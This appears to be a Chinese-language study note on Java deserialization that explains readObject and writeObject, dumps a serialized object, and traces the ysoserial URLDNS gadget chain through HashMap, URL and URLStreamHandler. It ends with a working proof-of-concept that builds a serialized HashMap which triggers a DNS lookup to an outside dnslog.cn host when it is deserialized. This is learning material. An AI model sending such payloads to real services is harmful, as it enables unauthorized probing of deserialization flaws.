








[toc]

>   [SerializationDumper辅助研究ysoserial URLDNS反序列化原理](https://xz.aliyun.com/t/8686)
>
>   [Ysoserial URLDNS分析](https://y4er.com/post/ysoserial-urldns/)


# P牛-反序列化篇

>   Java设计 readObject 的思路和PHP的 \_\_wakeup 不同点在于： readObject 倾向于解决“反序列化时如 何还原一个完整对象”这个问题，而PHP的 \_\_wakeup 更倾向于解决“反序列化后如何初始化这个对象”的 问题。

写个简单Person类举例：

```java
package com.yutao.day7;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;

public class Person implements Serializable {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    private void writeObject(ObjectOutputStream oos) throws IOException {
        oos.defaultWriteObject();
        oos.writeObject("this is aaaaaa");
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        System.out.println(ois.readObject());
    }

}
```

```java
package com.yutao.day7;

import java.io.*;

public class testcls {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Person person = new Person("name123", 123);
        FileOutputStream fos = new FileOutputStream("person.ser");
        ObjectOutputStream ois = new ObjectOutputStream(fos);
        ois.writeObject(person);

        FileInputStream fis = new FileInputStream("person.ser");
        ObjectInputStream oos = new ObjectInputStream(fis);
        Person test = (Person) oos.readObject();

    }
}
```

生成的person.ser使用`SerializationDumper-v1.13.jar`查看

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05                                                            
Contents                                                                            
  TC_OBJECT - 0x73                                                                  
    TC_CLASSDESC - 0x72                                                             
      className                                                                     
        Length - 21 - 0x00 15                                                       
        Value - com.yutao.day7.Person - 0x636f6d2e797574616f2e646179372e506572736f6e
      serialVersionUID - 0x37 9b 63 6f cf 02 73 26                                  
      newHandle 0x00 7e 00 00                                                       
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE                     
      fieldCount - 2 - 0x00 02                                                      
      Fields                                                                        
        0:                                                                          
          Int - I - 0x49                                                            
          fieldName                                                                 
            Length - 3 - 0x00 03                                                    
            Value - age - 0x616765                                                  
        1:                                                                          
          Object - L - 0x4c
          fieldName
            Length - 4 - 0x00 04
            Value - name - 0x6e616d65
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      com.yutao.day7.Person
        values
          age
            (int)123 - 0x00 00 00 7b
          name
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 7 - 0x00 07
                Value - name123 - 0x6e616d65313233
        objectAnnotation
          TC_STRING - 0x74
            newHandle 0x00 7e 00 04
            Length - 14 - 0x00 0e
            Value - this is aaaaaa - 0x7468697320697320616161616161
          TC_ENDBLOCKDATA - 0x78

```

可以看到，`writeObjece`写的内容被放到了`objectAnnotation`的位置，反序列化的时候会被读出：

后面将会讲到的HashMap，其就是将Map中的所有键、 值都存储在 `objectAnnotation` 中，而并不是某个具体属性里。




## ysoserial

>   在写这篇⽂章之前，我想说下我⼀直想吐槽的⼀个事情——我发现⽹上很多学习Java反序列化漏洞的⽂ 章，都是从 CommonsCollections 这条利⽤链开始学起的。我由衷的想问⼀句，你知 道 CommonsCollections 这条利⽤链有多复杂吗？还是说你觉得新⼈上来就需要给点猛的？其实多半 只是参考了前⼈发的⽂章（因为 CommonsCollections 是最初发布的利⽤链），依葫芦画瓢重新复述 了⼀遍，结果发现更难理解反序列化漏洞了吧。

u1s1P牛还是很人性化的，，说的太对了，网上一上来就各种cc链，，，

使用的工具：`ysoserial`

简单使用：



## URLDNS

>   `URLDNS`为`ysoserial`的一个利用链的名字，但准确来说，这个其实不能称作“利⽤链”。因为其参数不 是⼀个可以“利⽤”的命令，⽽仅为⼀个URL，其能触发的结果也不是命令执⾏，⽽是⼀次DNS请求。

整个URLDNS的链，首先反序列化出发readObject()：

1.  `HashMap->readObject()`

2.  `HashMap->hash(kay)`

3.  `URL->hashCode()`

4.  `URLStreamHandler->hashCode()`

5.  `URLStreamHandler->getHostAddress()`

6.  `InetAddress->getByName(host)`

### 分析跟进

`ysoserial`执行时会调用某个类的`getObject`方法：



跟进看下`hasmap`的`readObject`方法：

```java
    /**
     * Reconstitute the {@code HashMap} instance from a stream (i.e.,
     * deserialize it).
     */
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

可以看到在最后第45行计算了键的hash：



之后调用了`hashcode`，`URLDNS`中的key为URL对象，调用的是`java.net.URL`中的`hashcode`：



这里`handler`为`URLStreamHandler`对象，继续跟进：

```java
    /**
     * Provides the default hash calculation. May be overidden by handlers for
     * other protocols that have different requirements for hashCode
     * calculation.
     * @param u a URL object
     * @return an {@code int} suitable for hash table indexing
     * @since 1.3
     */
    protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

其中调用了`getHostAddress`()，继续跟进：



其中的getByName为根据主机名查找IP，就是一次DNS查询，后面的就没必要跟了。

### exp

这里会有个问题，经过多次实验（用的自己写的exp，删了，这里没有），可能请求的不是一次，而是多次， 这是应为在编译的时候put会执行putVal()，看代码就懂了，他put的时候还执行了hash，意思就是序列化的时候直接请求dns了，懂吧？



dns这个东西，懂吧不能查太多次，，，，

我们希望的是，在序列化的时候不进行查询，之后在反序列化的时候执行hashcode进行查询，so在序列化的时候，put时走的应该是直接return hashcode，而不是计算hashCode后返回，所以要先写个其他的值，put之后，再将其改为-1，exp如下：

(为了方便知道是序列化的时候查询的还是反序列化的时候查询的dns，可以直接断点。)

还有个小技巧，可以不用一直换dnslog，在前面加个子域名就行：

```java
package com.yutao.day7;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.net.URLStreamHandler;
import java.util.HashMap;

public class urldnsexp {
    public static void main(String[] args) throws Exception {
        HashMap<URL, String> obj = new HashMap<URL, String>();
        String url = "http://1.l2cbwo.dnslog.cn";
        URL url1 = new URL(url);
        Class clazz = Class.forName("java.net.URL");
        Field field = null;
        field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url1, 123123);
        obj.put(url1, "qwer");
        field.set(url1, -1);

        //序列化
        FileOutputStream fo = new FileOutputStream("urldns.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fo);
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
        System.out.println("ok");
        FileInputStream fi = new FileInputStream("urldns.ser");
        ObjectInputStream ois = new ObjectInputStream(fi);
        ois.readObject();
        ois.close();
    }
}
```



